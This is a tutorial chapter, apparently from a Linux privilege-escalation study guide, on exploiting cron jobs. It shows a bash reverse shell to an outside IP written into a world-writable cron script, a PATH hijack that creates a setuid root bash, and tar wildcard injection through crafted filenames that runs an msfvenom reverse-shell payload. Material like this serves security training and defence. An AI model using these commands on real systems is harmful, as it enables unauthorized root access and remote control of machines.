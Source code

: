 # 7. Cron jobs

### Introduction

Cron jobs are programs or scripts which users can schedule to run at specific times or intervals.

Cron jobs run with the security level of the user who owns them.

By default, cron jobs are run using the /bin/sh shell, with limited environment variables.

***

### Crontabs

Cron table files (crontabs) store the configuration for cron jobs.

User crontabs are usually located in **/var/spool/cron/** or **/var/spool/cron/crontabs/**

The system-wide crontab is located at **/etc/crontab**.

***

### File Permissions

Misconfiguration of file permissions associated with cron jobs can lead to easy privilege escalation.

If we can write to a program or script which gets run as part of a cron job, we can replace it with our own code.

1. View the contents of the system-wide crontab:
   * ```bash
     $ cat /etc/crontab
     ...
     * * * * * root overwrite.sh
     * * * * * root /usr/local/bin/compress.sh
     ```
2. Locate the **overwrite.sh** file on the server:
   * ```bash
     $ locate overwrite.sh
     /usr/local/bin/overwrite.sh
     ```
3. Check the file’s permissions:
   * ```bash
     $ ls -l /usr/local/bin/overwrite.sh
     -rwxr--rw- 1 root staff 40 May 13 2017 /usr/local/bin/overwrite.sh
     ```
   * Note that the file is world writable
4. Replace the contents of the overwrite.sh file with the following:
   * ```bash
     #!/bin/bash
     bash -i >& /dev/tcp/192.168.1.26/53 0>&1
     ```
5. Run a netcat listener on your local machine and wait for the cron job to run. A reverse shell running as the root user should be caught:

***

### PATH Environment Variable

The crontab PATH environment variable is by default set to **/usr/bin:/bin**

The PATH variable can be overwritten in the crontab file.

If a cron job program/script does not use an absolute path, and one of the PATH directories is writable by our user, we may be able to create a program/script with the same name as the cron job.

1. View the contents of the system-wide crontab:
   * ```bash
     $ cat /etc/crontab
     ...
     PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
     ...
     * * * * * root overwrite.sh
     * * * * * root /usr/local/bin/compress.sh
     ```
   * Note that the /home/user directory (which we can write to) is at the start of the PATH variable, and the first cron job does not use an absolute path.
2. Create the file overwrite.sh in /home/user with the following contents:
   * ```bash
     #!/bin/bash
     cp /bin/bash /tmp/rootbash
     chmod +s /tmp/rootbash
     ```
3. Ensure that overwrite.sh is executable:
   * ```bash
     $ chmod +x /home/user/overwrite.sh
     ```
4. Wait for the cronjob to run (this job in particular runs every minute).
5. Once the /tmp/rootbash file is created, execute it (with -p to preserve the effective UID) to gain a root shell:
   * ```bash
     $ /tmp/rootbash –p
     rootbash-4.1# id
     uid=1000(user) gid=1000(user) euid=0(root) egid=0(root)
     groups=0(root) ...
     ```

***

### Wildcards

When a wildcard character (\*) is provided to a command as part of an argument, the shell will first perform filename expansion (also known as globbing) on the wildcard.

This process replaces the wildcard with a space-separated list of the file and directory names in the current directory.

An easy way to see this in action is to run the following command from your home directory:

```bash
$ echo *
```

#### Wildcards and Filenames

Since filesystems in Linux are generally very permissive with filenames, and filename expansion happens before the command is executed, it is possible to pass command line options (e.g. -h, --help) to commands by creating files with these names.

The following commands should show how this works:

```bash
$ ls *
% touch ./-l
$ ls *
```

Filenames are not simply restricted to simple options like -h or --help.

In fact we can create filenames that match complex options:

```
--option=key=value
```

[GTFOBins](https://gtfobins.github.io) can help determine whether a command has command line options which will be useful for our purposes.

1. View the contents of the system-wide crontab
   * ````bash
     $ cat /etc/crontab
     ...
     * * * * * root /usr/local/bin/compress.sh
     	```
     ````
2. View the contents of the /usr/local/bin/compress.sh file
   * ```bash
     $ cat /usr/local/bin/compress.sh
     #!/bin/sh
     cd /home/user
     tar czf /tmp/backup.tar.gz *
     ```
   * Note that the tar command is run with a wildcard in the /home/user directory
3. GTFOBins shows that tar has command line options which can be used to run other commands as part of a checkpoint feature.
4. Use msfvenom to create a reverse shell ELF payload:
   * ```bash
     $ msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=53 -f elf -o shell.elf
     ```
5. Copy the file to the /home/user directory on the remote host and make it executable:
   * ```bash
     $ chmod +x /home/user/shell.elf
     ```
6. Create two files in the /home/user directory
   * ```bash
     $ touch /home/user/--checkpoint=1
     $ touch /home/user/--checkpoint-action=exec=shell.elf
     ```
7. Run a netcat listener on your local machine and wait for the cron job to run. A reverse shell running as the root user should be caught:
   * ```bash
     # nc -nvlp 53
     listening on [any] 53 ...
     connect to [192.168.1.26] from (UNKNOWN) [192.168.1.25] 47362
     bash: no job control in this shell
     root@debian:~# id
     id
     uid=0(root) gid=0(root) groups=0(root)
     ```

***
